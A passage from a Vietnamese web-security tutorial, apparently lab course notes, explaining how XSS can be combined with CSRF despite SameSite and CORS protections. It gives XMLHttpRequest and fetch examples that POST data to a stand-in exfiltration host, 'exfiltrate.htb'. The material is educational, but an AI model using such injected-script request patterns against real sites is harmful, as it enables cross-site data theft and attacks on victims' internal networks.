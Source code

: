 Hiện nay, nhiều trình duyệt web đã bổ sung các chính sách và cơ chế bảo mật nhằm ngăn chặn các khai thác CSRF đơn giản như:
- **Same-Origin Policy**: Chính sách ngăn không cho các trang web khác nhau truy cập tài nguyên của nhau nếu không cùng một nguồn gốc.
- **CORS (Cross-Origin Resource Sharing)**: Cơ chế chia sẻ tài nguyên giữa các nguồn khác nhau.
- **SameSite Cookies**: Thiết lập cookie chỉ cho phép gửi khi yêu cầu đến từ cùng một trang web.

Vì thế, việc khai thác CSRF truyền thống đã trở nên hiếm hơn trong thực tế. Tuy nhiên, nếu phát hiện một lỗ hổng XSS, ta có thể kết hợp khai thác cả **XSS** và **CSRF** để thực hiện các tấn công phức tạp hơn, không chỉ trên ứng dụng web đang bị tấn công mà còn có thể tấn công thêm các ứng dụng khác nằm trong mạng nội bộ của nạn nhân.

#### 3. **Sử dụng `XMLHttpRequest` và `Fetch API` để khai thác**

Để khai thác lỗ hổng CSRF và XSS, chúng ta có thể sử dụng **`XMLHttpRequest`** hoặc **`Fetch API`** để gửi các yêu cầu HTTP từ mã JavaScript. Chúng ta có thể chỉ định các tham số HTTP như phương thức, header, hoặc nội dung của yêu cầu.

##### **Ví dụ 1: Sử dụng `XMLHttpRequest` để gửi yêu cầu POST**

```javascript
var xhr = new XMLHttpRequest();
xhr.open('POST', 'http://exfiltrate.htb/', false);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send('param1=hello&param2=world');
```

- **Giải thích**:
  - `xhr.open()`: Mở một yêu cầu POST đến URL `http://exfiltrate.htb/`.
  - `xhr.setRequestHeader()`: Thiết lập header `Content-Type` để chỉ định loại dữ liệu là `application/x-www-form-urlencoded`.
  - `xhr.send()`: Gửi yêu cầu với dữ liệu `param1=hello&param2=world`.

##### **Ví dụ 2: Sử dụng `Fetch API` để gửi yêu cầu POST**

```javascript
const response = await fetch('http://exfiltrate.htb/', {
  method: "POST",
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  },
  body: 'param1=hello&param2=world',
});
```

- **Giải thích**:
  - `fetch()`: Hàm `fetch` nhận URL là tham số đầu tiên.
  - Tham số thứ hai là một đối tượng chứa các tham số của yêu cầu HTTP như phương thức, header, và nội dung.
  - `body`: Chứa dữ liệu sẽ được gửi trong yêu cầu POST.

---
# Giới thiệu về Môi trường Thực hành (Lab Environment)
